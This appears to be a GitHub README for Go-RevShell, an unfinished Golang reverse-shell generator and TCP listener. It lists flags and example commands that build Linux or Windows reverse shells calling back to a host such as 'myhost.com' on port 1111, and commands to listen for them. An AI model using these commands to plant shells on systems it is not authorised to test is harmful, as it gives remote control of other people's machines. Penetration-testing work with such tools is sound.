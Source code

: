 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell - README HAS TO BE REWORKED BEFORE GOING OPEN SOURCE
=======

Pure standard Golang implementation of a reverse-shell generator and a tcp listener. PTY RevShell not ready.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)


## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
  -t string
        Template to use to generate the reverse shell. Available : "native", "tty". (default "native")
```

### Build a reverse shell

* Build a native shell for linux server : ```go run main.go -s linux```
* Build a TYY shell for linux server : ```go run main.go -t tty -s linux```
* Build a TYY shell for linux server, with client ip and port : ```go run main.go -t tty -s linux -i myhost.com -p 1111```
* Build a native shell for windows server : ```go run main.go -s windows```

### Attach to reverse shell

* Listen to port 1111 ```go run main.go -l 1111```
* Listen to port 3412 ```go run main.go -l 3412```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* Fix pty shell
* More tests across different os
* Refresh and anon screenshots
* Publish package and refresh ##Usage

**[`^        back to top        ^`](#)**
